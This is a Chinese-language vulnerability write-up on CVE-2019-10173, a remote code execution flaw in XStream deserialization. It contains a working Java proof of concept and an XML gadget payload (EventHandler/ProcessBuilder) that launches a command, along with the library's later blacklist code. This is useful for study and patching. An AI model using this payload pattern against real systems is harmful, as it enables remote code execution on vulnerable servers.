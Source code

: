 （CVE-2019-10173）Xstream 远程代码执行漏洞
==========================================

一、漏洞简介
------------

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

二、漏洞影响
------------

XStream \<= 1.4.6

XStream = 1.4.10

三、复现过程
------------

### poc

    package com.bigo;

    import com.thoughtworks.xstream.XStream;

    import java.beans.EventHandler;
    import java.io.IOException;
    import java.util.Set;
    import java.util.TreeSet;

    /**
     * Created by cfchi on 2019/7/26.
     */
    public class Main {
        public static String expGen(){
            XStream xstream = new XStream();
            Set<Comparable> set = new TreeSet<Comparable>();
            set.add("foo");
            set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
            String payload = xstream.toXML(set);
            System.out.println(payload);
            return payload;
        }
        public static void main(String[] args) throws IOException {
            expGen();
            XStream xStream = new XStream();
            String payload = "<sorted-set>\n" +
                    "    <string>foo</string>\n" +
                    "    <dynamic-proxy>\n" +
                    "    <interface>java.lang.Comparable</interface>\n" +
                    "        <handler class=\"java.beans.EventHandler\">\n" +
                    "            <target class=\"java.lang.ProcessBuilder\">\n" +
                    "                <command>\n" +
                    "                    <string>cmd.exe</string>\n" +
                    "                    <string>/c</string>\n" +
                    "                    <string>calc</string>\n" +
                    "                </command>\n" +
                    "            </target>\n" +
                    "     <action>start</action>"+
                    "        </handler>\n" +
                    "    </dynamic-proxy>\n" +
                    "</sorted-set>\n";
           xStream.fromXML(payload);
        }
    }

### 1.4.7版本白名单

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId26.png)

### 1.4.10版本，黑名单未开启

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId28.png)

### 1.4.11版本，黑名单开启

#### 黑名单

    private class InternalBlackList implements Converter {
        private InternalBlackList() {
        }

        public boolean canConvert(Class type) {
            return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
        }

        public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
            throw new ConversionException("Security alert. Marshalling rejected.");
        }

        public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
            throw new ConversionException("Security alert. Unmarshalling rejected.");
        }
    }

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId31.png)

参考链接
--------

> http://www.polaris-lab.com/index.php/archives/658/
